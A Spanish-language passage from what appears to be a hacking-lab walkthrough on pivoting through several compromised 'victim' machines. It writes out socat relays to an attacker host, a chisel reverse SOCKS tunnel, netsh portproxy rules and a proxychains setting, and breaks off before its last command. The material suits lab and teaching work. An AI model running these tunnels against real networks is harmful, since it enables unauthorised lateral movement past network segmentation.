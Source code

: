 ```bash
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_server_maquina_atacante:puerto_server_maquina_atacante
```


Descargamos la última versión de chisel, pero en este caso la versión de Windows, desde el siguiente enlace: https://github.com/jpillora/chisel/releases. Después, lo que tenemos que hacer es compartir el chisel a nuestra máquina víctima 4, ya sea por medio de SMB u otro medio, haciendo uso de socat como lo hicimos anteriormente. Una vez con el chisel en nuestra máquina Windows, tendremos que ejecutar este comando, el cual redirecciona todo el tráfico al puerto que abrimos en la máquina víctima 2, y ya con socat, esto redirigirá todo hacia la máquina atacante, haciendo posible la visualización de la máquina víctima 5 en la máquina atacante:


```
.\chisel.exe client ip_maquina_victima_2:puerto_maquina_victima_2 R:puerto:socks
```


Una vez establecida la conexión, lo que tendremos que hacer es ingresar al archivo `/etc/proxychains.conf` y, arriba del último proxy, colocar lo siguiente, pero especificando el puerto donde está el proxy:

```
socks5 127.0.0.1 puerto
```


Cuando obtenemos acceso a la máquina 5, podemos ver que esta tiene otro segmento de red, el cual se comunica con la máquina víctima 6. Entonces, si queremos tener acceso a esta desde la máquina atacante, tenemos que hacer lo siguiente: desde la máquina víctima 4, ya que es una máquina Windows, podemos, en vez de usar socat, usar netsh para así redirigir el tráfico a la máquina víctima 3. El comando sería el siguiente:


```
netsh interface portproxy add v4tov4 listenport=puerto_en_escucha listenaddress=0.0.0.0 connectport=puerto_maquina_victima_2 connectaddress=ip_maquina_victima_2
```


Luego, ingresamos a la máquina víctima 2 y en esta ejecutamos el siguiente comando de socat, el cual redirigirá el tráfico que llegue al puerto especificado en el comando anterior a la máquina víctima 1:

```
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_server_maquina_victima_1:puerto_maquina_victima_1
```


Después, ingresamos a la máquina víctima 1, donde ejecutamos un comando muy parecido al anterior, solo que como puerto de escucha colocamos el puerto al que redirigimos todo el tráfico. Y ahora, lo que entre por ese puerto, lo redirigimos a nuestro servidor en la máquina atacante de la siguiente manera:

```bash
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_server_maquina_atacante:puerto_server_maquina_atacante
```


Finalmente, desde la máquina víctima 5, ejecutamos el siguiente comando, donde indicaremos el puerto de la máquina víctima 4 donde se está en escucha, y ya con ayuda de socat, todo el tráfico se redireccionará a la máquina atacante, haciendo posible que la máquina atacante y la máquina 6 puedan interactuar. El comando es el siguiente:
